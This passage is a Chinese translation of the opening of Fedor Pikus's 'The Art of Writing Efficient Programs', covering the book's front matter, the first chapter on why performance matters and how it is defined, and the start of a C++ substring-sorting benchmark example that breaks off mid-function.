


**The Art of Writing Efficient Programs**\
An advanced programmer's guide to efficient hardware utilization and
compiler optimizations using C++ examples\
(一本高级编程指南，使用C++介绍如何高效利用硬件和编译器优化)\
作者: Fedor G. Pikus\
译者；陈晓伟

\
**本书概述**

*掌握各种性能提升技术，如并发性、无锁编程、原子操作、并行性和内存管理。*

性能自提升的时代结束了，以前随着CPU的升级，程序本身的速度也在加快，现在情况不一样了。新架构的处理器时钟频率几乎达到了峰值，对现有的程序性能上的改进并不多。虽然处理器的体积更大、性能更强，但这些能力的都在增多的核数和其他的计算单元上消耗掉了。为了编写高效的软件，现在的开发者必须了解如何利用现有的计算资源进行编程，这本书将说明如何做到这一点。

这本书涵盖了编写高效程序的主要方面：高效地使用CPU资源和内存，避免不必要的计算，性能测试，以及如何充分利用并发性和多线程。还会了解编译器优化，以及如何更有效地使用编程语言(C++)。最后，了解设计决策如何对性能产生影响。

读完这本书，可以利用处理器和编译器的知识来编写高效的程序，还能够理解使用这些技术和在提高性能时如何进行测试。而本书的核心在于学习的方法论。

\
**关键特性**

-   了解现代CPU的局限性及对性能的影响

-   了解如何避免编写效率低下的代码，并使用编译器进行优化

-   了解编写高性能程序需要权衡策略和成本

\
**内容纲要**

-   了解如何有效地使用程序中的硬件计算资源

-   理解内存序和内存栅栏之间的关系

-   熟悉不同数据结构和组织方式对性能的影响

-   评估并发内存访问对性能的影响，以及如何将影响最小化

-   了解何时使用和不使用无锁编程技术

-   探索提高编译器优化效率的不同方法

-   为避免效率低下的开发，针对并发和高性能数据结构设计API

\
**作者简介**

**Fedor G. Pikus**是Mentor
Graphics公司(西门子公司)硅设计部门的首席工程科学家。他曾在谷歌担任高级软件工程师，在Mentor
Graphics担任Calibre
PERC、LVS、DFM的首席软件架构师。1998年，他从计算物理的学术研究转向软件行业，加入Mentor
Graphics。Fedor是高性能计算和C++方面公认的专家，他的作品在CPPCon, SD
West, DesignCon, Software Development
Journal上进行过展示，也是O'Reilly的作者。作为首席科学家，他的职责包括规划Calibre产品的长期技术方向，指导和培训从事这些产品、软件设计和架构的工程师，以及研究新的设计和软件技术。Fedor在物理学、EDA、软件设计和C++语言方面拥有超过25项专利和超过100篇论文和会议报告。

` 我要感谢我的妻子加林娜(Galina)，我的儿子亚伦(Aaron)和本杰明(Benjamin)，他们支持和鼓励我，对我信心十足。还有我的猫维尼(Pooh)，也会在我需要的时候鼓励我。 `

\
**审评者介绍**

**Sergey
Gomon**在12年前在白俄罗斯国立大学信息和无线电电子学院的人工智能系，开始了他的IT之旅。他在网络编程、信息安全、图像处理等多个领域拥有大约8年使用C++的工业编程经验。他目前在N-able工作，是CoreHard
C++社区的活跃成员。

\
**本书相关**

-   Github翻译地址：\
    <https://github.com/xiaoweiChen/The-Art-of-Writing-Efficient-Programs>

**前言**

高性能编程的艺术仍在归来途中。我还是编程菜鸟时，那时候的开发者必须知道每一个数据位的去向(有时的确要这样------用面板上的开关)。现在，计算机已经有能力完成日常工作，就没必要在意有些细节。不过，还是有一些领域没有足够的计算能力。其实，大多数开发者都可以写出高效的代码，这不是一件坏事。在不受性能限制的前提下，这样开发者就可以更专注于如何使代码变的更好。

本书首先阐明了，为什么越来越多的开发者需要关注性能和效率。这将为整本书定下基调，因为其定义了我们在后续章节中所使用的方法论。关于性能的知识最终必须来自于测试，并且每个与性能相关的声明都必须有数据支撑。

其中，有五个要素决定了程序的性能。

首先，我们深入研究所有性能的底层基础------用于计算的硬件(没有交换机------那些日子已经一去不复返了)。从单个部件------处理器和内存------到多处理器计算系统。在此过程中，我们会了解了内存模型、数据共享的成本，还有无锁编程。

高性能编程的第二个要素是对编程语言的使用，这一点正是本书针对C++(其他语言也有低效率)进行的说明。而后的是第三个要素，即是帮助编译器提高程序性能的技能。

第四个要素是设计。如果设计没有将性能作为其明确目标，那么几乎不可能在之后再为程序添加良好的性能。然而，因为这是一个高级概念，它汇集了之前所学到的所有知识，所以我们最后再来了解性能设计。

高性能编程的最后，也是第五个要素就是------正在阅读本书的你，你的知识和技能水平将最终决定结果。为了帮助读者进行学习，这本书提供了许多例子，可以用于动手探索和自学。学习是一项终身的运动，切勿在看完本书后停止学习。

\
**适读人群**

这本书是为有经验的开发人员编写，从事对性能至关重要的项目，并希望学习不同的技术来提高代码的性能。算法交易、游戏、生物信息学、基因组学或流体动力学社区的开发者，都可以从这本书中学习各种技术，并将其应用到他们的工作领域中。

虽然本书使用的是C++，但本书的概念可以转移或应用到其他编译语言，如C、Java、Rust、Go等。

\
**本书内容**

*第1章，性能和并发性*。讨论了重视程序性能的原因，特别是性能好的应用为什么不会凭空出现。为了实现最佳性能，甚至是提升性能，理解影响性能的不同因素和程序特定行为的原因(无论是快执行还是慢执行)。

*第2章，性能测试*。本章内容都是关于性能测试的。性能有时并不直观，所有涉及效率的决策，从设计选择到具体优化策略，都应该以可靠的数据为指导。本章描述了不同类型的性能评估方式，解释了它们的不同之处，以及应该在什么时候使用哪种方式，并了解如何在不同的情况下正确地评估性能。

*第3章，CPU架构、资源和性能*。研究硬件，以及如何高效地使用硬件资源，从而达到最佳性能。本章将了解CPU资源和能力，以及使用方法。了解CPU资源没有得到充分利用的原因，以及如何解决这些问题。

*第4章，内存架构与性能*。了解现代内存架构，以及其缺点，以及避免或规避这些缺点的方法。对于许多程序来说，性能完全依赖于开发者是否可以利用硬件特性来提高内存性能。

*第5章，线程、内存和并发*。继续学习内存系统，及其对性能的影响，但现在会扩展到多核系统和多线程领域。事实证明，内存已经是性能的"关键"，当添加了并发时，内存管理可能会很棘手。虽然硬件带来的物理限制无法克服，但大多数程序的性能其实还未触及这些限制，而且对于资深的开发者来说，代码效率还有很大的提高空间。所以，本章为读者们提供了必要的知识和工具。

*第6章，并发性和性能*。了解如何为线程安全的程序开发高性能并发算法和数据结构。一方面，为了充分利用并发性，必须从更高的角度看待问题和解决方案策略:数据组织、工作分区，甚至是解决方案的定义都会对程序性能产生重大影响。另一方面，性能受到底层的极大影响，比如:缓存中数据的分布，即使是最好的设计也可能因糟糕的实现，达不到预期的性能。

*第7章，用于并发的数据结构*。解释并发程序中数据结构的本质，以及在多线程上下文中使用数据结构，比如：定义常用的数据结构(如"堆栈"和"队列"等)。

*第8章，C++中的并发*。介绍了C++17和C++20标准中最近添加的并发特性。虽然，现在谈论使用这些特性获得最佳性能的方式还为时过早，但我们可以描述其作用，以及编译器当前的支持情况。

*第9章，高性能C++*。重点从硬件资源的使用，转移到特定编程语言的应用。虽然，我们学到的所有东西都可以直接应用到任何语言中，但本章将讨论C++的特性。读者将了解C++语言的哪些特性可能会导致性能问题，以及如何规避这些问题。

*第10章，C++中的编译器优化*。本章还会讨论编译器优化的问题，以及开发者如何帮助编译器生成更高效的代码。

*第11章，未定义的行为和性能*。这里有两个重点：一方面，解释了开发者在试图最大化代码性能时，经常忽略的未定义行为的危险性。另一方面，解释了如何利用未定义的行为来提高性能，以及如何正确地控制和记录这些情况。总的来说，与"任何事情都可能发生"相比，这一章提供了一些常见方式来理解未定义行为的问题。

*第12章，为性能而设计*。回顾本书中所学到的所有与性能相关的因素和特性，并总结所获得的知识，了解如何在开发新软件系统或重新架构现有软件系统时，如何做出的设计决策。

\
**编译环境**

除了特定于C++效率的章节，不依赖于任何C++知识。所有的例子都是用C++编写(但是有关硬件性能、高效数据结构和性能设计的部分适用于任何编程语言)。要看懂这些示例，至少需要具备中等程度的C++知识。

  C++ compiler (GCC, Clang, Visual Studio, etc.)   Operating system (Windows, macOS or Linux)
  ------------------------------------------------ --------------------------------------------
  LLVM version 12.x or higher
  Profiler (VTune, Perf, GoogleProf, etc.)
  Benchmark library (GoogleBench)

  : Required tools for high-performance C++ programming

每一章都会提到编译和执行示例所需的软件(如果有的话)。大多数情况下，现代C++编译器都可以与示例一起使用，除了第8章(C++中的并发)，该章要求支持C++20，从而可以展示**协程**的相关示例。

**如果你正在使用这本书的数字版本，我们建议自己输入代码或通过GitHub库访问代码(链接在下一节中提供)。这样做将帮助您避免与复制和粘贴代码相关的任何潜在错误**

\
**下载示例**

可以从GitHub网站[https://	github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs](https://	github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs)下载本书的示例代码文件。如果代码有更新，会在现有的GitHub库中更新。

我们还有其他的代码包，还有丰富的书籍和视频目录，都在<https://github.com/PacktPublishing/>。去看看吧!

\
**联系方式**

我们欢迎读者的反馈。

**反馈**：如果你对这本书的任何方面有疑问，需要在你的信息的主题中提到书名，并给我们发邮件到[customercare@packtpub.com](customercare@packtpub.com)。

**勘误**：尽管我们谨慎地确保内容的准确性，但错误还是会发生。如果您在本书中发现了错误，请向我们报告，我们将不胜感激。请访问[www.packtpub.com/support/errata](www.packtpub.com/support/errata)，选择相应书籍，点击勘误表提交表单链接，并输入详细信息。

**盗版**:如果您在互联网上发现任何形式的非法拷贝，非常感谢您提供地址或网站名称。请通过[copyright@packt.com](copyright@packt.com)与我们联系，并提供材料链接。

**如果对成为书籍作者感兴趣**：如果你对某主题有专长，又想写一本书或为之撰稿，请访问[authors.packtpub.com](authors.packtpub.com)。

\
**欢迎评论**

请留下评论。当您阅读并使用了本书，为什么不在购买网站上留下评论呢？其他读者可以看到您的评论，并根据您的意见来做出购买决定。我们在Packt可以了解您对我们产品的看法，作者也可以看到您对他们撰写书籍的反馈。谢谢你！

想要了解Packt的更多信息，请访问[packt.com](packt.com)。

# 第一部分：性能基础 {#第一部分性能基础 .unnumbered}

将了解研究程序性能的方法------基于测试粒度、基准测试和分析。以及了解每个计算系统性能的主要硬件组件:处理器、内存和二者间如何进行交互。

本节包括以下几章:

-   第1章，性能和并发性

-   第2章，性能测试

-   第3章，CPU架构、资源和性能

-   第4章，内存架构与性能

-   第5章，线程、内存和并发

##  第1章性能和并发性 {#第1章性能和并发性 .unnumbered}

动机是学习的关键，因此理解为什么在计算硬件方面有众多改进的情况下，开发者仍需要努力编写高性能的代码？为什么今天还需要对计算硬件、编程语言和编译器能力有深刻的理解？本章就来回答这些基本问题。

本章讨论了关注性能的原因，特别是"为什么好性能不能凭空产生"。为了达到最优性能，甚至是足够的性能，需要了解影响性能的不同因素，以及程序特定行为的原因，无论是快速执行还是缓慢执行。

本章将讨论以下内容:

-   为什么会有性能问题？

-   为什么需要开发者关注性能？

-   性能的含义是什么？

-   如何评估性能

-   了解高性能

###  1.1.为什么要关注性能？ {#为什么要关注性能 .unnumbered}

早期计算机的编程非常困难，因为处理器慢、内存有限、编译器差劲，完成一个程序需要花费大量的时间。开发者必须知道CPU架构、内存布局，对于当时的编译器，关键的代码必须用汇编来写。

后来情况有所好转了。处理器的速度越来越快，编译器开发者可以使用了一些使程序更快的技巧，所以曾经需要巨大硬盘容量的处理器，现在的所需的容量也就一个普通PC机主存的大小，开发者可以花更多的时间来解决问题，这反映在编程语言和设计风格上。在高级语言和不断发展的设计和编程实践之间，开发者的重点从想在代码中**说什么**，转变为想**怎么说**。

以前的常识，如CPU到底有多少寄存器，寄存器的名字都是什么，现在却变成了深奥且难懂的话题。曾经的"大型代码库"很难进行管理，而现在已经完全在版本控制系统的掌握之下了。几乎不需要为特定的处理器或内存系统编写特定的代码，可移植的代码已经越来越流行了。

对于手动汇编编程，实际上很难超越编译器生成的代码。当代码量增加，大多数开发者无法完成手动汇编。对于应用程序和编写者来说，有"足够的性能"即可，开发者需要对其他方面的事情更加关注(需要明确的是，开发者可以专注于代码的可读性，而不必担心添加一个名称有意义的函数是否会使程序慢)。

然后，也算是老生常谈，"性能自增长"的时代结束了。看似不断增长的计算能力的提升在程序性能方面......停止了。


\
图1.1 -微处理器35年的发展历程\
(引用于
[https://github.com/karlrupp/microprocessor-trend-data and https://github.com/karlrupp/microprocessor-trend-data/blob/master/LICENSE.txt](https://github.com/karlrupp/microprocessor-trend-data and https://github.com/karlrupp/microprocessor-trend-data/blob/master/LICENSE.txt))


2005年左右，单个CPU的计算能力达到饱和，CPU频率也停止增长。CPU的频率又受到几个因素的限制，其中之一是功耗(如果频率趋势保持不变，如今的CPU每平方毫米的功率将超过将火箭送入太空的大型喷气式发动机)。

从前面的图表中可以明显看出，并不是所有的进步指标都在2005年停滞不前:集成在单个芯片中的晶体管数量一直在增长。那么，如果不是让芯片更快，那是在做什么呢？图表下面的曲线揭示了其中的部分原因。设计师没有将单个处理器做得更大，而是将多个处理器核心放在一起。当然，这些处理器的计算能力会随着核的数量而增加。"晶体管之谜"的第二部分(晶体管都到哪里去了？)中，硬件设计师对处理器功能进行了增强，可以用来提高性能，但也需要开发者了解如何使用。

处理器的变化是并发编程进入主流的原因，但这种变化的意义远不止于此。本书中为了获得最佳性能，开发者需要理解处理器和内存体系结构，及其间的交互，所以出色的性能不再是"偶然获得"。与此同时，在编写代码时所取得的进步，也清楚地表达了需要做什么，而不是如何做。我们仍然希望编写可读和可维护的代码，并且(不是但是)这些代码是高效的。

可以肯定的是，对于许多应用程序来说，现代CPU的性能已经足够，但程序的性能比过去有了更多的关注，这在很大程度上是因为CPU的变化。因为我们想在不一定能获得最佳计算资源的应用程序中，做更多的计算(例如，今天的便携式医疗设备可能有一个神经网络程序在其中工作)。

幸运的是，我们不必在黑暗的储藏室里翻找一堆堆腐烂的穿孔卡片，来重新学习那些古老的艺术形式。任何时候，都有困难的问题，对于许多软件开发者来说，*计算能力永远不够用*这句话完全正确。随着计算能力呈指数级增长，对它的需求也在相应的增长(古老的艺术只会在少数需要它的领域中得以延续)。

###  1.2.为什么有性能问题 {#为什么有性能问题 .unnumbered}

为了找到一个对性能的关注从未减弱的例子，让我们来看看计算的演变(它使计算本身成为可能)，**电子设计自动化(EDA)**工具，其会用来设计计算机。

2010年进行了设计、模拟或验证某一特定微芯片的计算，此后每年都运行相同的计算量，我们会看到这样的结果:

\
图1.2 - 这些年来对于特定的EDA计算的处理时间，以小时为单位，


2010年计算时间为80小时，而2018年计算时间不到10小时(现在更短)。改善从何而来？计算机变得更快，但同时软件变得更高效，使用更好的算法，优化的编译器变得更高效。

当然，我们不会在2021年制造2010版的微芯片。所以有理由认为，随着电脑变得越来越强大，制造更新更好的芯片变得越来越困难。那么，每年要花多长时间才能完成同样的工作呢？

\
图1.3 - 每年最新的微芯片的运行时间，以小时为单位


每年实际完成的计算并不相同，但它们的目的相同，例如：对于我们每年制作的芯片，会验证芯片是否按照预期的方式运行。从这个图表可以看出，当前最强大的处理器，每年的设计和处理器所用的时间大致相同。虽然我们在努力，但没有任何进展。

事实比这更糟，上面的图表并不能说明一切。从2010年到2018年，那一年生产的最大处理器可以在一夜之间(大约12个小时)通过适配去年生产的电脑进行验证。这里，我们忘了问有多少个处理器？好吧，下面就是真相:

\
图1.4 - 添加了每次计算的CPU数量

每年好的计算机，配备了数量不断增长的处理器，运行最新的软件(优化会利用越来越多的处理器，并更有效地使用每个处理器)，完成构造下一年计算机所需的工作。每年都是在这样，但这项任务几乎不可能完成。我们依靠硬件和软件工程师的成就保持一优势，因为前者提供了不断增长的计算能力，而后者则以最高的效率使用它。这本书将来了解后者所使用的相关技能。

我们现在了解了这本书中内容的重要性。在深入研究细节之前，做一个概述可能会有所帮助。

###  1.3.性能是什么? {#性能是什么 .unnumbered}

我们已经讨论了程序的性能，还提到了高性能软件。但这些代表了什么呢？通常，我们知道高性能的程序比较快，但这并不意味着更快的程序总是有好的性能(两个程序都可能有较差的性能)。

我们也提到了高效的程序，但是效率和高性能一样吗？虽然效率与性能有关，但并不相同。效率是指有效地利用资源，而不是浪费资源，而高效的程序会充分的利用计算硬件。

一方面，高效的程序不会让可用的资源闲置。如果有需要完成的计算，而有处理器什么都不做，那么这个处理器应该正在等待执行的代码。进一步的说，处理器中有许多计算资源，高效的程序可以同时利用尽可能多的资源。而高效的程序不会浪费资源去做不必要的工作，不会执行不需要的计算，不会浪费内存去存储永远不使用的数据，在不需要的情况下，不会通过网络发送数据等。简而言之，高效的程序不会让可用的硬件闲置，也不会做不必要的工作。

另一方面，性能总是与一些指标相关。最常见的是"速度"，或程序运行的有多快。更严格地定义是*吞吐量*，即程序在给定时间内执行的计算量，或者说是计算特定结果所需的时间。然而，这并不是性能的唯一定义。

**1.3.1性能------吞吐量**

考虑四个使用不同实现来计算相同结果的程序。下面是四个程序的运行时间(单位是相对的。实际数字并不重要，因为我们感兴趣的是相对性能):

{width="80%"}\
图1.5 - 同一算法，四种不同实现的运行时间(相对单位)

显然，程序B的性能最高，比其他三个程序完成得早，计算同样结果所需的时间是最慢程序的一半。通常，这将是我们选择最佳实现所需的依据。

问题的背景很重要，我们忽略了这个程序是否是在电池供电的设备上运行的(比如手机)，而且功耗指标也很重要。

**1.3.2性能------功耗**

以下是四个程序在计算过程中所消耗的功率:

{width="80%"}\
图1.6 - 同一算法，四种不同实现的功耗(相对单位)

虽然需要更长的时间才能得到结果，但是程序C总体上使用的功率更少。那么，哪个程序的性能最好呢?

同样，这是一个不了解完整背景的陷阱问题。程序不仅在移动设备上运行，而且执行实时计算，比如：用于音频处理。这应该会让结果更快地返回，对吧？不一定哦。

**1.3.3性能------实时性**

实时程序必须时刻跟上它正在处理的事件，特别对于音频处理器来说，必须跟上语音输入。假设这个程序处理音频的速度比人说话的速度快十倍，对我们来说这够快了，所以不妨把注意力转向功耗。

一方面，如果程序偶尔会落后于输入，这样一些声音甚至文字就会消失。这说明实时或速度在一定程度上很重要，但必须以可知的方式进行交付。

当然，对此也有一个性能指标:尾部延迟。延迟是指数据准备好(语音记录)和处理完成之间的延迟。前面的吞吐量反映了处理声音的平均时间，如果对着手机说一个小时，那么音频处理器需要多长时间来完成所有计算？这种情况下，真正重要的是每个声音的计算都需要按时完成。

在底层上，计算速度会波动：有时计算完成得快，有时时间会长。要是平均速度可以接受，那重点就在于是罕见的长延迟上了。

尾部延迟是作为延迟的特定百分位数来计算的，例如：如果$t$有$95^{th}$个百分位的延迟，那么95%的所有计算花费的时间会比t少。指标本身是$95^{th}$个百分位时间$t$与平均计算时间$t_0$的比率(经常表示为百分比，所以$95^{th}$个百分位的30%延迟意味着$t$比$t_0$大30%):

\
图1.7 - 95%相同算法的四种不同实现的延迟(百分比)

平均下来程序B的计算结果比其他任何实现都快，它也提供了最不可预测的运行时间结果。而程序D的计算像发条一样精确，每次做一个给定的计算几乎花费相同的时间。我们已经观察到，程序D的功耗是最差的。这很罕见，因为使程序更节能的技术，本质上是概率性的。大多数时候会加快计算速度，但也并不是每次都会这样。

那么，哪个程序的性能最好呢？答案肯定取决于程序，但即便如此，区别也可能并不明显。

**1.3.4性能------依赖上下文**

如果这是在大型数据中心中运行的仿真软件，并且需要花费数天的时间来计算，那么吞吐量就非常重要了。对于电池供电的设备，功耗通常是最重要的。在更复杂的环境中，比如实时音频处理器，可能会是多个性能指标的组合。当然，平均运行时间也很重要，但只有当它"足够快"时才重要。如果说话者没有注意到延迟，处理的更快一点也什么意义。需要注意尾部延迟，用户的耐心会随着漏词，一点点的消耗殆尽。当延迟足够好，通话质量则会受到其他因素的限制，那再关注这个点就没什么意义了，这时可以注意下能耗。

我们现在了解了，与效率不同，性能总是根据特定的指标来定义的，这些指标取决于应用程序和具体使用场景。对于某些指标来说，当其他指标出现时，就会出现"足够好"的情况。效率反映了计算资源的利用情况，是实现良好性能的方法(可能是最常见的方法，但不是唯一的方法)。

###  1.4.评估、估计和预测性能 {#评估估计和预测性能 .unnumbered}

指标的概念是性能的基础，其隐含着可能性和必要性.如果说"有一个指标"，就意味着有一种量化和衡量的方法，而获得指标值的唯一方法就是测试。

衡量性能的重要性怎么强调都不为过，性能的第一定律就是*永远不要去猜测性能*。本书的下一章将专注于性能测试、测试工具、如何使用测试，以及如何分析结果。

不幸的是，很多时候会开发者会对性能进行猜测。还有一些笼统描述语句，如"避免在C++中使用虚函数，它们很慢。"其问题在于描述不准确，并且这里并没有说明虚函数相对于非虚函数慢多少。作为给读者的练习，这里有几个答案可供选择，已经进行量化:

-   虚函数慢100%

-   虚函数慢15\~20%

-   虚函数对程序没什么影响

-   虚函数快10\~20%

-   虚函数慢100倍

哪个是正确答案呢？如果选择了这些答案中的任何一个，恭喜你，选择了正确的答案。没错，在特定的环境和特定的上下文中，这些答案都是正确的(要了解原因，需要等到第9章)。

通过接受直觉或猜测性能是不现实的，从而会有落入另一个陷阱的风险。因为我们不猜测性能，所以可以作为借口编写低效的代码，从而"稍后进行优化"。

性能指标不能在后期添加，所以在最初的设计和开发中就应该去考虑。与其他设计目标一样，性能因素和目标也应在设计阶段占有一席之地。这些早期的目标和永远不要猜测性能的规则之间存在着矛盾，我们必须找到折衷方案，描述设计阶段想要实现的性能目标是一个好办法。虽然提前知道了不存在最佳优化，但可以确定的是后期优化会很困难，甚至需要重新设计。

开发过程中也会出现同样的情况，比如：花很长时间优化一个每天只调用一次、只需要一秒钟的函数是愚蠢的。另一方面，将这些代码封装到一个函数中则非常明智的做法。因此，随着程序的发展，当使用模式发生了变化，则可以以后再进行优化，而无需重写其余部分的代码。

另一种描述"不提前优化规则"的局限性，并通过"是"来进行限定，但也不要过于悲观。认识到两者的差异需要良好的设计实践/知识，以及加深对编程的理解，从而才能获得高性能。

那么，作为一名开发人员/编程者，为了精通开发高性能应用程序技能，需要学习和理解什么呢？下一节，我们将从这些目标开始，然后进行详细讨论。

###  1.5.高性能 {#高性能 .unnumbered}

如何让程序获得"高性能"？是"效率"。首先，这并不总是正确的(尽管它经常正确)；其次，这里回避了一个问题，因为下一个问题就是：如何使得程序有"效率"？为了写出高效或高性能的程序，需要学习什么呢？让我们制作一个列表，来看看需要哪些技能和知识:

-   选择正确的算法

-   有效利用CPU资源

-   高效的使用内存

-   避免不必要的计算

-   有效地使用并发和多线程

-   有效地使用编程语言，避免效率低下

-   测试性能和分析结果

实现高性能的最重要因素是选择一个好的算法，我们不能通过优化实现来"修复"算法的缺点。对于算法好坏的讨论，超出了本书的范畴。当然，算法是具体问题的解法，这里必须进行深入研究，从而找出解决问题的最优解法。

另一方面，实现高性能的方法和技术在很大程度上与问题无关。当然，这些技术和方法依赖于性能指标，例如：实时系统的优化是高度特化领域的问题。本书中，我们主要关注高性能计算上的性能指标，尽可能快地进行计算。

为了成功地完成这项任务，必须学会尽可能多地使用可用的计算资源。这个目标有空间和时间的两部分组成：空间方面，使用更多的晶体管，处理器拥有巨大的数量的晶体管。处理器也正在变得更大，甚至更快。增加的面积提供了新的计算能力。时间方面，应该使用尽可能多的资源。如果计算资源空闲，那么这些资源对我们来说是没有用的，所以我们的目标是避免这种情况。与此同时，忙碌有时也会没有回报，所以要避免做任何不需要的事情。我们要从哪里下手解决问题呢？有很多方法可以让程序避免执行不需要的计算。

本书中，我们将从单处理器开始，并了解如何有效地使用计算资源。然后，扩展视图，不仅包括处理器，还包括内存。当然，也会考虑同时使用多个处理器的情况。

有效地使用硬件只是高性能程序的特性之一，高效地完成可以避免的工作对我们没有任何帮助。高效工作的关键是有效地使用编程语言，我们的例子中使用的是C++(我们对硬件的大部分了解可以应用到其他语言，但是有些语言优化是C++特有的)。此外，编译器位于我们编写的语言和使用的硬件之间，因此必须学习如何使用编译器来生成高效的代码。

最后，量化刚刚列出的目标成功的方法就是进行测试。比如：使用了多少CPU资源？花了多少时间等待内存？增加一个线程是否可以获得更好的性能？等等。获得良好的量化性能数据并不容易，这需要对测试工具有更细节的理解，而分析结果往往会更难。

可以从这本书中学习以上的技能。我们还会来学习硬件架构，以及隐藏在一些编程语言特性背后的东西，以及如何像编译器那样看代码。技能固然重要，但更重要的是理解为什么会以这种方式运行。计算可能硬件经常发生变化，语言也在不断发展，开发者也可以为编译器发明了新的优化算法。因此，这些领域特定知识的保质期不会太久。现在，可以先了解特定处理器或编译器的最佳使用方法，再了解获得这些知识的方法，从而可以重复这个过程，并进行更深入的学习。

###  1.6.总结 {#总结 .unnumbered}

这一导论性章节中，我们讨论了为什么现代计算机的计算能力飞速发展，人们对软件性能和效率的兴趣却在上升。因此，为了理解限制性能的因素，以及如何克服它们，所以需要回到计算的基本要素上来。理解计算机和程序是如何在底层上工作的，了解硬件并有效地使用，理解并发性，理解C++语言特性和编译器优化，以及其对性能的影响。

这种底层知识必然是详细和具体的，但当了解处理器或编译器的具体情况后，我们也会了解得出这些结论的过程。在更深层次上，本书更是关于如何学习的方法论。

我们进一步了解到，如果不定义衡量性能的标准，性能的概念就没有意义。需要根据特定的指标来评估性能，这意味着关于性能的工作都由数据和指标驱动。下一章，我们来了解一下如何对性能进行测试。

###  1.7.练习题 {#练习题 .unnumbered}

1.  尽管处理能力有所提高，为什么程序性能仍然重要？

2.  理解软件性能需要了解底层次的计算硬件和编程语言知识吗？

3.  性能和效率的区别是什么？

4.  为什么必须根据特定的指标来定义性能？

5.  如何判断具体的性能指标能否实现？

##  第2章性能测试 {#第2章性能测试 .unnumbered}

无论是编写新性能程序，还是优化现有的程序，在这之前需要了解代码当前的性能。衡量成功的标准是让程序的表现提高多少。这两种看法都说明了性能指标的存在，而且指标是可测量和可量化的。不过，没有一个定义能满足所有情况。要量化性能时，需要衡量的指标是什么，取决于具体问题。

但衡量标准不是简单地定义目标和确认成功。性能优化的每一步，无论是现有代码还是新代码，都应该有指标进行引导。

性能的第一条规则：*永远不要猜测性能*。本章的第一部分是让所有人认同这条规则。为了打破对直觉的信任，我们必须学习使用如何使用测试性能的工具。

本章将讨论以下内容:

-   为什么性能测试是必要的

-   为什么所有与性能相关的决策都必须由测试和数据驱动

-   如何测试实际程序的性能

-   什么是基准测试、数据分析和微基准测试，以及如何使用它们来衡量性能

###  2.1.相关准备 {#相关准备 .unnumbered}

首先，需要一个C++编译器。本章的示例使用GCC或Clang编译器，并在Linux上进行编译。所有的Linux发行版都会将GCC作为常规安装的一部分，发行版中可能有较新的编译器版本。Clang编译器可以通过LLVM项目<http://llvm.org/>获得。Windows上，Microsoft
Visual Studio是最常用的编译器，当然GCC和Clang也可以使用。

其次，需要一个分析工具。本章中，我们将使用Linux的perf性能分析器，其在大多数Linux发行版上都已安装(或可用于安装)。文档的地址:<https://perf.wiki.kernel.org/index.php/Main_Page>。

还会演示另一个分析器的使用，来自于谷歌性能工具集(GperfTools)的CPU分析器，地址为:<https://github.com/gperftools/gperftools>(同样，可以通过其源码进行安装)。

还有是许多其他可用的分析工具，有免费的，也有商业的。它们以不同的方式展示了相同类型的信息，但会提供许多不同的分析选项进行呈现。通过本章的示例，可以了解什么是分析工具，以及可能存在的限制。有着良好纪律性的开发者，会对使用的工具细节进行详细的了解。

最后，使用微基准测试工具。本章中使用了<https://github.com/google/benchmark>谷歌基准库，需要自己下载和安装(即使与Linux发行版一起安装，版本也很可能过时)，请按照页面上的说明进行安装。

安装了所有必要的工具后，就可以进行第一次性能测试了。

本章代码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter02>。

###  2.2.性能测试示例 {#性能测试示例 .unnumbered}

本章的其余部分中，将更详细地了解每种性能分析工具。本节中，我们将做一个端到端示例，并分析程序的性能。并展示如何进行性能分析，以及如何使用不同的性能分析工具。

本节结束时，读者们应该会相信*永远不要对性能进行猜测*。

实际中需要分析和优化的程序很可能大到要用很篇幅来说明，因此我们将使用一个简化的示例。程序中将完成对子字符串的排序：假设有一个字符串`S`，比如：`abcdcba`(这里是个简单的例子，实际的字符串可能有数百万个字符)。可以以该字符串中的任何字符开始创建子字符串，例如：`S0`的起始偏移量为0，因此其值为`abcdcba`。`S2`以偏移量2开始，值为`cdcba`，S5为`ba`。我们要用常规的字符串比较来按顺序对这些子字符串进行排序，子字符串的顺序是`S2`，`S5`，`S0`(按照第一个字符`’c’`、`’b’`和`’a’`的顺序)。

如果用字符指针表示子字符串，就可以使用STL的`std::sort`进行排序。现在交换两个子字符串只需要交换指针，字符串保持不变。下面是示例代码:

**01_substring_sort.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2, unsigned int l);
int main() {
	constexpr unsigned int L = …, N = …;
	unique_ptr<char[]> s(new char[L]);
	vector<const char*> vs(N);
	  … prepare the string …
	size_t count = 0;
	system_clock::time_point t1 = system_clock::now();
	std::sort(vs.begin(), vs.end(),
	  [&](const char* a, const char* b) {
		++count;
		return compare(a, b, L);
	});
	system_clock::time_point t2 = system_clock::now();
	cout << "Sort time: " <<
	  duration_cast<milliseconds>(t2 - t1).count() <<
	  "ms (" << count << " comparisons)" << endl;
}
```

注意，为了编译这个例子，需要包含相应的头文件，并使用`using`声明一些缩写:

``` {style="styleCXX"}
#include <algorithm>
#include <chrono>
#include <cstdlib>
#include <cstring>
#include <iostream>
#include <memory>
#include <random>
#include <vector>
using std::chrono::duration_cast;
using std::chrono::milliseconds;
using std::chrono::system_clock;
using std::cout;
using std::endl;
using std::minstd_rand;
using std::unique_ptr;
using std::vector;
```

后面的例子中，将省略公共头文件和公共名称(如`cout`或`vector`)的`using`声明。

示例定义了一个字符串，该字符串用于要排序的子字符串和子字符串组(字符指针)的数据(但这里还没有展示数据是如何创建的)。然后，使用`std::sort`和比较函数对子字符串进行排序，调用比较函数`compare()`的Lambda表达式。我们使用Lambda表达式将`compare()`函数的输入(该函数接受两个指针和最大字符串长度)调整为`std::sort`所期望的输入(只有两个指针)，这就是**适配器模式**。

我们的例子中，Lambda表达式的第二个作用是，用于计算比较调用的次数。因为我们对排序的性能很感兴趣，所以如果想比较不同的排序算法，这个信息会很有用(我们现在不打算这么做，但是这个对读者们的性能优化工作很有用)。

这个例子中只声明了比较函数，但没有定义。它的定义在一个单独的文件中，如下所示:

**01_substring_sort_a.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2, unsigned int l) {
